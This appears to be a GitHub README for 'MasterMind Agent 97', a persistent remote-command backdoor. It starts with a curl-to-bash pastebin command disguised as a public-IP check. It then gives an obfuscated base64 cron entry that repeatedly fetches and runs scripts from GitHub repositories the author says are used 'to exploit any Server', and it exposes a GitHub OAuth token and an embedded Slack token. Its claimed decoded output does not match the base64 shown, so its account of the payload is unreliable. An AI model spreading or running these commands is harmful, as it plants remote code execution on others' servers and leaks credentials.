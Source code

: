 #### Welcome  [ MasterMind Agent 97 ]

**Agent 97** : v0.0.3

Let's Explore **MasterMind Agent 97**

Run below command to Get Your Public IP.
```bash
  # Retrive Your Public IP
  curl -s https://pastebin.com/raw/DGbDe6LZ|bash -
```

##### Step 1

Create Script and encode with base64
```bash
# /tmp/script.sh
#!/bin/bash
echo "hello World"
ifconfig
ls -la
pwd
```

##### Encode with Base64
Create `mm.key` file using below command  and commit this file in `MasterMind` repository.
```bash
# Command will create encoded file mm.key
 base64 /tmp/script.sh > <MasterMind Repo>/mm.key
```


#### Lets Explore More about Backend Concept.

##### How to install MasterMind Agent
We require to configure below command on remote machine. we can configure cron to execute periodically.

```bash
# below commmand should be run from remote machine.
#vim vim /etc/cron.daily/mm
eval $(echo "Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg=="|base64 -d|bash -)
```
#### Layars Decode :

 1. Decoded `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

 ```bash
#curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
echo "curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d"|base64

 # output
Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg==
 ```

 2. Decoded : `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

  ```bash
  # data s.txt
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt

  # output: Encoded : s.txt
  Y3VybCAtc0wgLXUgYTgwNDczMTg1YjNmYTM2NTNiMmZjNmMzYzJjMjY5OWRjY2M1NWFjNzp4LW9hdXRoLWJhc2ljIGh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9zd3V4ZW4vbWFzdGVybWluZC9tYXN0ZXIvbW0ua2V5fGJhc2U2NCAtZHxiYXNoIC0K

  # Decoding s.txt file
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
  # output : Decoded : s.txt
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -

  ```

 3. Decoded : `curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -`
  ```bash
  # File data : mm.key file
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key

  # output :
  IyEvYmluL2Jhc2gKZXhwb3J0IFNMQUNLX0NMSV9UT0tFTj0neG94Yi05NTI4MjkzMTc2MzUtOTU3
  OTQ3MTQxNjk5LUdVWXJFM2I2ZXhIWmNvS3dQaDM0QVlTYycKZXhwb3J0IFNMQUNLX0NIQU5ORUw9
  IiNkZXZvcHMiClNMQUNLX0JJTj0iL3Vzci9iaW4vbXNsYWNrIgpnZXRfc2VydmVyX2luZm8oKXsK
  ICBleHBvcnQgUFJJVkFURV9JUD0kKGhvc3RuYW1lIC1JKQogIGV4cG9ydCBQVUJfSVA9JChjdXJs
  IC1zIGljYW5oYXppcC5jb20pCiAgZXhwb3J0IFRJTUVTVEFNUD0kKGRhdGUpCn0KZ2V0X3VzZXJf
  ZGF0YSgpewogIGxvZ19wYXRoPS90bXAvdWluZm8ubG9nCiAgZ2V0X3NlcnZlcl9pbmZvCiAgZWNo
  byAiCkEgU1NIIGxvZ2luIHdhcyBzdWNjZXNzZnVsLCBzbyBoZXJlIGFyZSBzb21lIGluZm9ybWF0
  aW9uIGZvciBzZWN1cml0eToKICAgIFVzZXIgICAgICAgICAgIDogICRVU0VSCiAgICBVc2VyIElQ
  IEhvc3QgICA6ICAke1NTSF9DTElFTlQvICp9CiAgICBEYXRlICAgICAgICAgICA6ICAke1RJTUVT
  VEFNUH0KICAgIEhvc3RuYW1lICAgICAgIDogIGBob3N0bmFtZWAKICAgIFNlcnZlciBJUCAgICAg
  IDogICR7UFVCX0lQfSB8ICR7UFJJVkFURV9JUH0KCiAgICBXZSB3aWxsIG5vdGlmeSB5b3Ugb25j
  ZSB1c2VyWyRVU0VSXSB3aWxsIGVuZCBzZXNzaW9uLgogICIgPiAke2xvZ19wYXRofQoKICBpZiBb
  WyAtZiAiJHtsb2dfcGF0aH0iIF1dOyB0aGVuCiAgICBjYXQgJHtsb2dfcGF0aH0gfCAke1NMQUNL
  X0JJTn0gY2hhdCBzZW5kIC0tY2hhbm5lbCAiJHtTTEFDS19DSEFOTkVMfSIgXAogICAgICAtLXRp
  dGxlICJTU0ggbG9naW4gc3VjY2Vzc2Z1bCAtICR7VVNFUn1AJHtQUklWQVRFX0lQfSBvbiAke1RJ
  TUVTVEFNUH0iIFwKICAgICAgLS1jb2xvciBnb29kID4gL2Rldi9udWxsIDI+JjEKICAgIHJtIC1m
  ICR7bG9nX3BhdGh9CiAgZmkKfQpnZXRfdXNlcl9kYXRhCg==

  # Decoding mm.key
   curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d

   # Decoded output : /tmp/script.sh | mm.key
   #!/bin/bash
   echo "hello World"
   ifconfig
   ls -la
   pwd
  ```

We are using two repository to exploit any Server.

- Public Repository -  https://github.com/swuxen/lI.git
- Private Repository - https://github.com/swuxen/mastermind
